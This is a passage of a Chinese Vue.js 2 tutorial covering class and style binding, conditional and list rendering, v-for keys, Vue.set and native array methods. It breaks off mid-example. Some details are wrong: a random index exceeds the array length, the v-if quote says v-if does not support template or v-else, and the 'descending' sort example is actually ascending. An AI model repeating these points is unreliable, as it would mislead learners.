







# 四、VUE基础(三)

## 4.1：CSS绑定

### 1.准备css样式

```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8" />
  <title>demo</title>
  <script type="text/javascript" src="../js/vue.js"></script>
  <style>
    .basic{
      width: 400px;
      height: 100px;
      border: 1px solid black;
    }

    .happy{
      border: 4px solid red;;
      background-color: rgba(255, 255, 0, 0.644);
      background: linear-gradient(30deg,yellow,pink,orange,yellow);
    }
    .sad{
      border: 4px dashed rgb(2, 197, 2);
      background-color: gray;
    }
    .normal{
      background-color: skyblue;
    }

    .xht1{
      background-color: yellowgreen;
    }
    .xht2{
      font-size: 30px;
      text-shadow:2px 2px 10px red;
    }
    .xht3{
      border-radius: 20px;
    }
  </style>
</head>
<body>
<div id="root">
  <div>hello {{name}}</div>
</div>
</body>

<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      name:'小糊涂'
    }
  })
</script>
</html>
```

### 2.简介

1. `:class='xxx'  v-bind:class=‘xxx’`

2. 表达式是字符串: `'classA'`

3. 表达式是对象: `{classA:isA, classB: isB}`

4. 表达式是数组: `['classA', 'classB']`

### 3.案例

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
    <style>
        .basic {
            width: 400px;
            height: 100px;
            border: 1px solid black;
        }

        .happy {
            border: 4px solid red;;
            background-color: rgba(255, 255, 0, 0.644);
            background: linear-gradient(30deg, yellow, pink, orange, yellow);
        }

        .sad {
            border: 4px dashed rgb(2, 197, 2);
            background-color: gray;
        }

        .normal {
            background-color: skyblue;
        }

        .xht1 {
            background-color: yellowgreen;
        }

        .xht2 {
            font-size: 30px;
            text-shadow: 2px 2px 10px red;
        }

        .xht3 {
            border-radius: 20px;
        }
    </style>
</head>
<body>
<div id="root">
    <!-- 绑定class样式--字符串写法，适用于：样式的类名不确定，需要动态指定 -->
    <div class="basic" :class="mood" @click="changeMood">{{name}}</div>
    <br/><br/>
    <!-- 绑定class样式--数组写法，适用于：要绑定的样式个数不确定、名字也不确定 -->
    <div class="basic" :class="classArr">{{name}}</div>
    <br/><br/>
    <!-- 绑定class样式--对象写法，适用于：要绑定的样式个数确定、名字也确定，但要动态决定用不用 -->
    <div class="basic" :class="classObj">{{name}}</div>
    <br/><br/>
</div>
</body>

<script type="text/javascript">
    new Vue({
        el: '#root',
        data: {
            name: '小糊涂',
            mood: 'normal',
            classArr: ['xht1', 'xht2', 'xht3'],
            classObj: {
                xht1: true,
                xht2: true,
            },

        }, methods: {
            changeMood() {
                const arr = ['happy', 'sad', 'normal']
                const index = Math.floor(Math.random() * 4)
                this.mood = arr[index]
            }
        },
    })
</script>
</html>
```

## 4.2：stryle操作

### 1.简介

1. `:style="{ color: activeColor, fontSize: fontSize + 'px' }"`

2. 其中 activeColor/fontSize 是 data 属性
3. `:style="{fontSize: xxx}"`xxx是动态值。
4. `:style="[a,b]"`其中a、b是样式对象。

### 2.案例

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
    <style>
        .basic {
            width: 400px;
            height: 100px;
            border: 1px solid black;
        }

        .happy {
            border: 4px solid red;;
            background-color: rgba(255, 255, 0, 0.644);
            background: linear-gradient(30deg, yellow, pink, orange, yellow);
        }

        .sad {
            border: 4px dashed rgb(2, 197, 2);
            background-color: gray;
        }

        .normal {
            background-color: skyblue;
        }

        .xht1 {
            background-color: yellowgreen;
        }

        .xht2 {
            font-size: 30px;
            text-shadow: 2px 2px 10px red;
        }

        .xht3 {
            border-radius: 20px;
        }
    </style>
</head>
<body>
<div id="root">
    <!-- 绑定style样式--对象写法 -->
    <div class="basic" :style="styleObj">{{name}}</div>
    <br/><br/>
    <!-- 绑定style样式--数组写法 -->
    <div class="basic" :style="styleArr">{{name}}</div>
    <br/><br/>
</div>
</body>

<script type="text/javascript">
    new Vue({
        el: '#root',
        data: {
            name: '小糊涂',
            styleObj: {
                fontSize: '40px',
                color: 'red',
            },
            styleObj2: {
                backgroundColor: 'orange'
            },
            styleArr: [
                {
                    fontSize: '40px',
                    color: 'blue',
                },
                {
                    backgroundColor: 'gray'
                }
            ]

        }, methods: {
            changeMood() {
                const arr = ['happy', 'sad', 'normal']
                const index = Math.floor(Math.random() * 4)
                this.mood = arr[index]
            }
        },
    })
</script>
</html>
```



## 4.3：条件渲染

### 1.v-show

> `v-show` **的元素始终会被渲染并保留在 DOM 中**。`v-show` 只是简单地切换元素的 CSS property `display`。
>
> 注意，`v-show` 不支持 `<template>` 元素，也不支持 `v-else`。

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <button @click="flag=!flag">点击我看效果</button>
    <button @click="count+=1">点击我看效果</button>
    <h1 v-show="flag">hello 小明</h1>
    <h1 v-show="count % 2 === 0">hello 小红</h1>
</div>
</body>
<script type="text/javascript">
    new Vue({
        el: '#root',
        data: {
            flag: true,
            count: 1
        }
    })
</script>
</html>
```

### 2.v-if

> `v-if` 指令用于条件性地渲染一块内容。这块内容只会在指令的表达式返回 truthy 值的时候被渲染。
>
>  `v-if` **的元素始终会被渲染不会保留在 DOM 中**。
>
> 注意，`v-if` 不支持 `<template>` 元素，也不支持 `v-else`。
>
> ```html
> <h1 v-if="awesome">Vue is awesome!</h1>
> ```

```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8"/>
  <title>demo</title>
  <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <button @click="flag=!flag">点击我看效果</button>
  <button @click="count+=1">点击我看效果</button>
  <h1 v-if="flag">hello 小明</h1>
  <h1 v-if="count % 2 === 0">hello 小红</h1>

</div>
</body>

<script type="text/javascript">
  new Vue({
    el: '#root',
    data: {
      flag: true,
      count: 1
    }
  })
</script>
</html>
```

### 3.v-else和v-else-if

> + `v-else-if`，顾名思义，充当 `v-if` 的“else-if 块”，可以连续使用：
>
> + 你可以使用 `v-else` 指令来表示 `v-if` 的“else 块”：
>
> + `v-else` 元素必须紧跟在带 `v-if` 或者 `v-else-if` 的元素的后面，否则它将不会被识别。

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <button @click="count+=1">点击我看效果{{count}}</button>
    <h1 v-if="count  === 1">hello 小红</h1>
    <h1 v-else-if="count  === 2">hello 小明</h1>
    <h1 v-else-if="count  === 3">hello 小刚</h1>
    <h1 v-else-if="count  === 4">hello 张三、李四、王五</h1>
    <h1 v-else>hello 小糊涂</h1>
</div>
</body>
<script type="text/javascript">
    new Vue({
        el: '#root',
        data: {
            flag: true,
            count: 0
        }
    })
</script>
</html>
```

### 4.v-if与template的配合使用

```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8"/>
  <title>demo</title>
  <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <!-- v-if与template的配合使用 -->
  <template v-if="flag">
    <h2>张三</h2>
    <h2>李四</h2>
    <h2>王五</h2>
  </template>
  <div v-if="flag">
    <h2>张三</h2>
    <h2>李四</h2>
    <h2>王五</h2>
  </div>
</div>
</body>

<script type="text/javascript">
  new Vue({
    el: '#root',
    data: {
      flag: true,
      count: 1
    }
  })
</script>
</html>
```



### 5.v-if 和v-show

+ `v-if` 是“真正”的条件渲染，因为它会确保在切换过程中条件块内的事件监听器和子组件适当地被销毁和重建。

+ `v-if` 也是**惰性的**：如果在初始渲染时条件为假，则什么也不做——直到条件第一次变为真时，才会开始渲染条件块。

+ 相比之下，`v-show` 就简单得多——不管初始条件是什么，元素总是会被渲染，并且只是简单地基于 CSS 进行切换。

+ 一般来说，`v-if` 有更高的切换开销，而 `v-show` 有更高的初始渲染开销。因此，如果需要非常频繁地切换，则使用 `v-show`
  较好；如果在运行时条件很少改变，则使用 `v-if` 较好。

> 1. 如果需要频繁切换 v-show 较好
>
> 2. 当条件不成立时, v-if 的所有子节点不会解析(项目中使用)

## 4.4：列表渲染

### 1.v-for简介

v-for指令:
1. 用于展示列表数据
2. 语法：

```html
v-for="(item, index) in xxx" :key="yyy"
```

3. 可遍历：数组、对象、字符串（用的很少）、指定次数（用的很少）

### 2.案例

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <h1>hello {{name}}</h1>
    <h2>遍历数组</h2>
    <ul>
        <li>id---name---pwd</li>
        <li :id="item.id" v-for="item in users">{{item.id}}---{{item.name}}---{{item.pass}}</li>
    </ul>
    <h2>遍历数组--带索引</h2>
    <ul>
        <li>index---id---name---pwd</li>
        <li :id="index" v-for="(item,index) in users">{{index}}---{{item.id}}---{{item.name}}---{{item.pass}}</li>
    </ul>
    <h2>遍历对象</h2>
    <ul>
        <li v-for="(value,key) in user">{{key}}---{{value}}</li>
    </ul>
    <h2>遍历字符串</h2>
    <ul>
        <li v-for="value in str">{{value}}</li>
    </ul>
    <h2>遍历字符串带索引</h2>
    <ul>
        <li v-for="(value ,index) in str">{{index}}---{{value}}</li>
    </ul>
</div>
</body>

<script type="text/javascript">
    new Vue({
        el: '#root',
        data: {
            name: '小糊涂',
            user: {
                id: 1,
                name: 'admin',
                pass: 'admin'
            }, users: [
                {id: 1, name: '张三', pass: 'admin'},
                {id: 2, name: '李四', pass: 'admin'},
                {id: 3, name: '王五', pass: 'admin'}
            ],
            str: 'hello'

        }
    })
</script>
</html>
```

### 3.维护状态·key

当 Vue 正在更新使用 `v-for` 渲染的元素列表时，它默认使用“就地更新”的策略。如果数据项的顺序被改变，Vue 将不会移动 DOM
元素来匹配数据项的顺序，而是就地更新每个元素，并且确保它们在**每个索引位置正确渲染**。这个类似 Vue 1.x
的 `track-by="$index"`。

这个默认的模式是高效的，但是**只适用于不依赖子组件状态或临时 DOM 状态 (例如：表单输入值) 的列表渲染输出**。

为了给 Vue 一个提示，以便它能跟踪每个节点的身份，从而重用和重新排序现有元素，你需要为每项提供一个唯一 `key` attribute：

```html
<div v-for="item in items" v-bind:key="item.id">
  <!-- 内容 -->
</div>
```

+ 建议尽可能在使用 `v-for` 时提供 `key` attribute，除非遍历输出的 DOM 内容非常简单，或者是刻意依赖默认行为以获取性能上的提升。

+ 因为它是 Vue 识别节点的一个通用机制，`key` 并不仅与 `v-for` 特别关联。后面我们将在指南中看到，它还具有其它用途。

+ 不要使用对象或数组之类的非基本类型值作为 `v-for` 的 `key`。请用字符串或数值类型的值。

### 4.key的问题重现

我们在使用key的时候我们如果这样写：

```html
 <li :id="index" v-for="(item,index) in users" :key="index">{{item.name}}:<input type="text" value=""></li>
```

使用数据的索引来做key，但是是有问题的：下面案例：


> #### 代码：
>
> ```html
> <!DOCTYPE html>
> <html>
> <head>
>     <meta charset="UTF-8"/>
>     <title>demo</title>
>     <script type="text/javascript" src="../js/vue.js"></script>
> </head>
> <body>
> <div id="root">
>     <h1>hello {{name}}</h1>
>     <h2>
>         <button @click="addPrefix">在第一个节点前面增加节点</button>
>         <button @click="addSufix">在最后一个节点增加节点</button>
>         <button @click="delPrefix">删除第一个节点</button>
>         <button @click="delSufix">删除最后一个节点</button>
>     </h2>
>     <ul>
>         <li>index---id---name---pwd</li>
>         <li :id="index" v-for="(item,index) in users" :key="index">{{item.name}}:<input type="text" value=""></li>
>     </ul>
> 
> </div>
> </body>
> 
> <script type="text/javascript">
>     new Vue({
>         el: '#root',
>         data: {
>             name: '小糊涂',
>             count: 3,
>             users: [
>                 {id: 1, name: '张三', pass: 'admin'},
>                 {id: 2, name: '李四', pass: 'admin'},
>                 {id: 3, name: '王五', pass: 'admin'}
>             ]
>         }, methods: {
>             addPrefix() {
>                 this.users.unshift({id: this.count++, name: "测试", pass: "admin"})
>             },
>             addSufix() {
>                 this.users.push({id: this.count++, name: "测试", pass: "admin"})
>             },
>             delPrefix() {
>                 this.users.shift()
>             },
>             delSufix() {
>                 this.users.pop()
>             }
>         }
>     })
> </script>
> </html>
> ```
>
> #### 效果测试
>
> 

### 5.key的问题解决

1.最好使用每条数据的**唯一标识**作为key, 比如id、手机号、身份证号、学号等唯一值。

2.如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，**仅用于渲染列表用于展示，使用index作为key是没有问题的。**




### 6.key的总结

1. 虚拟DOM中key的作用：

    1. key是虚拟DOM对象的标识，当数据发生变化时，Vue会根据【新数据】生成【新的虚拟DOM】,随后Vue进行【新虚拟DOM】与【旧虚拟DOM】的差异比较，比较规则如下：
2. 对比规则：

    1. 旧虚拟DOM中找到了与新虚拟DOM相同的key：

        1. 若虚拟DOM中内容没变, 直接使用之前的真实DOM！
        2. ②.若虚拟DOM中内容变了, 则生成新的真实DOM，随后替换掉页面中之前的真实DOM。
    3. 旧虚拟DOM中未找到与新虚拟DOM相同的key,创建新的真实DOM，随后渲染到到页面。
3. 用index作为key可能会引发的问题：
    1. 若对数据进行：逆序添加、逆序删除等破坏顺序操作: 会产生没有必要的真实DOM更新 ==> 界面效果没问题, 但效率低。
    2. 如果结构中还包含输入类的DOM： 会产生错误DOM更新 ==> 界面有问题。
4. 开发中如何选择key?

    1. 最好使用每条数据的唯一标识作为key, 比如id、手机号、身份证号、学号等唯一值。
    2. 如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，使用index作为key是没有问题的。

### 7.列表过滤

#### 效果

输入框输入内容显示相关内容


#### 代码

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8" />
    <title>列表过滤</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<!-- 准备好一个容器-->
<div id="root">
    <h2>人员列表</h2>
    <input type="text" placeholder="请输入名字" v-model="keyWord">
    <ul>
        <li v-for="(p,index) of filPerons" :key="index">
            {{p.name}}-{{p.age}}-{{p.sex}}
        </li>
    </ul>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false
    //用watch实现
    //#region
    /* new Vue({
        el:'#root',
        data:{
            keyWord:'',
            persons:[
                {id:'001',name:'马冬梅',age:19,sex:'女'},
                {id:'002',name:'周冬雨',age:20,sex:'女'},
                {id:'003',name:'周杰伦',age:21,sex:'男'},
                {id:'004',name:'温兆伦',age:22,sex:'男'}
            ],
            filPerons:[]
        },
        watch:{
            keyWord:{
                immediate:true,
                handler(val){
                    this.filPerons = this.persons.filter((p)=>{
                        return p.name.indexOf(val) !== -1
                    })
                }
            }
        }
    }) */
    //#endregion

    //用computed实现
    new Vue({
        el:'#root',
        data:{
            keyWord:'',
            persons:[
                {id:'001',name:'马冬梅',age:19,sex:'女'},
                {id:'002',name:'周冬雨',age:20,sex:'女'},
                {id:'003',name:'周杰伦',age:21,sex:'男'},
                {id:'004',name:'温兆伦',age:22,sex:'男'}
            ]
        },
        computed:{
            filPerons(){
                return this.persons.filter((p)=>{
                    return p.name.indexOf(this.keyWord) !== -1
                })
            }
        }
    })
</script>
</html>
```

### 8.列表排序

#### 效果

如下我们可以对数据进行排序



#### 代码

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8" />
    <title>列表排序</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<!-- 准备好一个容器-->
<div id="root">
    <h2>人员列表</h2>
    <input type="text" placeholder="请输入名字" v-model="keyWord">
    <button @click="sortType = 2">年龄升序</button>
    <button @click="sortType = 1">年龄降序</button>
    <button @click="sortType = 0">原顺序</button>
    <ul>
        <li v-for="(p,index) of filPerons" :key="p.id">
            {{p.name}}-{{p.age}}-{{p.sex}}
            <input type="text">
        </li>
    </ul>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false

    new Vue({
        el:'#root',
        data:{
            keyWord:'',
            sortType:0, //0原顺序 1降序 2升序
            persons:[
                {id:'001',name:'马冬梅',age:30,sex:'女'},
                {id:'002',name:'周冬雨',age:31,sex:'女'},
                {id:'003',name:'周杰伦',age:18,sex:'男'},
                {id:'004',name:'温兆伦',age:19,sex:'男'}
            ]
        },
        computed:{
            filPerons(){
                const arr = this.persons.filter((p)=>{
                    return p.name.indexOf(this.keyWord) !== -1
                })
                //判断一下是否需要排序
                if(this.sortType){
                    arr.sort((p1,p2)=>{
                        return this.sortType === 1 ? p2.age-p1.age : p1.age-p2.age
                    })
                }
                return arr
            }
        }
    })

</script>
</html>
```

## 4.5：vue的set

+ **语法**

```html
Vue.set( target, propertyName/index, value )
```

- **参数**：

    - `{Object | Array} target`
    - `{string | number} propertyName/index`
    - `{any} value`

- **返回值**：设置的值。

- **用法**：

  向响应式对象中添加一个 property，并确保这个新 property 同样是响应式的，且触发视图更新。它必须用于向响应式对象上添加新
  property，因为 Vue 无法探测普通的新增 property (比如 `this.myObject.newProperty = 'hi'`)

  > 注意对象不能是 Vue 实例，或者 Vue 实例的根数据对象。

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>Vue监测数据改变的原理</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h1>学生信息</h1>
			<button @click="addSex">添加一个性别属性，默认值是男</button>
			<h2>姓名：{{student.name}}</h2>
			<h2 v-if="student.sex">性别：{{student.sex}}</h2>
			<h2>年龄：真实{{student.age.rAge}}，对外{{student.age.sAge}}</h2>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		const vm = new Vue({
			el:'#root',
			data:{
				student:{
					name:'tom',
					age:{
						rAge:40,
						sAge:29,
					}
				}
			},
			methods: {
				addSex(){
					this.$set(this.student,'sex','男')
				}
			}
		})
	</script>
</html>
```

## 4.6：数据的更新检测

> 列表的渲染和vue中的set方法结合说数组检测

### 1.数组使用回忆

> 数据是原生js中的，我们看一下他的使用方法：

#### 创建数组

```html
var arr = new Array();  // 创建一个数组
var arr = new Array([size]);  // 创建一个数组并指定长度，注意不是上限，是长度
var arr = new Array(element0, element1, ..., elementn);  // 创建一个数组并赋值
var arr = [] // 字面量创建数组
var arr = Array.of(element0, element1, ..., elementn)  // 将一组值转换成数组
```

#### Array.from()伪数组变成数组

将伪数组变成数组，就是只要有length的属性就可以转成数组

```html
let name = "javascript";
console.log(name.length); // 10

let arr = Array.from(name);
console.log(arr); // [ 'j', 'a', 'v', 'a', 's', 'c', 'r', 'i', 'p', 't' ]
```

#### Array.of()转换成数组

将一组值转换成数组，类似于声明数组

```html
let arr = Array.of(10);
let arr2 = Array.of("hello", "world");

console.log(arr); // [ 10 ] 
console.log(arr2); // [ 'hello', 'world' ]
```

#### push()添加到数组末尾

可以接收任意数量的参数，把它们逐个添加到数组末尾，并返回修改后数组的长度

```html
let arr = [1, 2, 3];
arr.push(4);

console.log(arr); // [ 1, 2, 3, 4 ]
console.log(arr.length); // 4
```

#### pop()数组末尾移除

从数组末尾移除最后一项，减少数组的length值，然后返回移除的项

```html
let arr = [1, 2, 3];
let delVal = arr.pop();

console.log(arr); // [ 1, 2]
console.log(delVal); // 3
```

#### shift()移除数组中的第一个

移除数组中的第一个项并返回该项，同时将数组长度减1

```html
let arr = [1, 2, 3];
let delVal = arr.shift();

console.log(delVal); // 1
console.log(arr); // [ 2, 3 ]
console.log(arr.length); // 2
```

#### unshift()数组前端添加任意个项

在数组前端添加任意个项并返回新数组的长度

```text
let arr = [1, 2, 3];
let arrLength = arr.unshift(0);

console.log(arrLength); // 4
console.log(arr); // [ 0, 1, 2, 3 ]
```

#### reverse()反转数组项的顺序

反转数组项的顺序

```text
let arr = [1, 2, 3];
arr.reverse();

console.log(arr); // [ 3, 2, 1 ]
```

#### sort()排序

从小到大排序，但它的排序方法是根据数组转换字符串后来排序的

```html
let arr = [1, 5, 10, 15];
// 从小到大排序
console.log(arr.sort((p1,p2)=>{
    return p1-p2;
})); // [ 1, 5, 10, 15 ]
// 从大到小排序
console.log(arr.sort((p1,p2)=>{
    return p1-p2;
})); // [ 1, 5, 10, 15 ]
```

#### concat()合并数组

可以基于当前数组中的所有项创建一个新数组，不会影响原数组的值

```html
let arr = [1, 2, 3];
let newArr = arr.concat([4, 5, 6], [7, 8, 9]);

console.log(newArr); // [ 1, 2, 3, 4, 5, 6, 7, 8, 9 ]
console.log(arr); // [1, 2, 3]
```

#### arr.fill(target, start, end)插入值

使用给定的值，填充一个数组,ps:填充完后会改变原数组

- target – 待填充的元素
- start – 开始填充的位置-索引
- end – 终止填充的位置-索引（不包括该位置)

```html
let arr = [1, 2, 3, 4];
let arr2 = [5, 6, 7, 8];

// 全部填充5
arr.fill(5);
console.log(arr); // [ 5, 5, 5, 5 ]

// 从索引为1到3填充9
arr2.fill(9, 1, 3);
console.log(arr2); // [ 5, 9, 9, 8 ]
```

#### Array.isArray(arr)判断是否为数组

判断传入的值是否为数组

```html
let arr = [];
let obj = {};

console.log(Array.isArray(arr)); // true
console.log(Array.isArray(obj)); // false
```

#### indexOf()和lastIndexOf()查询数据位置

这两个方法都接收两个参数：要查找的项和（可选的）表示查找起点位置的索引。其中，`indexOf()`
方法从数组的开头（位置0）开始向后查找，`lastIndexOf()`方法则从数组的末尾开始向前查找。

```html
let arr = [1, 2, 3, 2, 1];

// 从0开始查询值为2的位置
console.log(arr.indexOf(2)); // 1
// 从索引为2开始查询值为2的位置
console.log(arr.indexOf(2, 2)); // 3

// 倒叙查询值为2的位置
console.log(arr.lastIndexOf(2)); // 3
// 倒叙查询值为2的位置
console.log(arr.lastIndexOf(2, 2)); // 1
```

#### find()查询数据是否存在

数组实例的find方法，用于找出第一个符合条件的数组成员。它的参数是一个回调函数，所有数组成员依次执行该回调函数，直到找出第一个返回值为true的成员，然后返回该成员。如果没有符合条件的成员，则返回undefined。

```html
let arr = [1, 2, 3, 4, 5, 6];

let index = arr.find(val => val === 3);
let index2 = arr.find(val => val === 100);

console.log(index); // 3
console.log(index2); // undefined
```

#### findIndex()同上

和数组实例的findIndex方法的用法与find方法非常类似，返回第一个符合条件的数组成员的位置，如果所有成员都不符合条件，则返回-1。

```html
let arr = [1, 2, 3, 4, 5, 6];
let index = arr.findIndex(val => val === 3);
let index2 = arr.findIndex(val => val === 100);
console.log(index); // 2
console.log(index2); // -1
```

#### includes()数组是否包含给定的值

方法返回一个布尔值，表示某个数组是否包含给定的值，与字符串的includes方法类似。

```html
let arr = [1, 2, 3, 4, 5, 6];

console.log(arr.includes(3)); // true
console.log(arr.includes(100)); // false
```

#### 迭代方法数组

> **every()**


对数组中的每一项运行给定函数，如果该函数对每一项都返回true，则返回true。

```html
let arr = [1, 2, 3, 4, 5, 6];

// 是否所有的值都大于3
let isTrue = arr.every(value => value > 3);
console.log(isTrue); // false;
```

> **filter()**


对数组中的每一项运行给定函数，返回该函数会返回true的项组成的数组。

```html
let arr = [1, 2, 3, 4, 5, 6];

// 取数组中大于3的值重新组成新数组
let newArr = arr.filter(value => value > 3);
console.log(newArr); // [ 4, 5, 6 ]
```

> **forEach()**


对数组中的每一项运行给定函数。这个方法没有返回值。

```html
let arr = [1, 2, 3, 4, 5, 6];

// 迭代数组的每一项
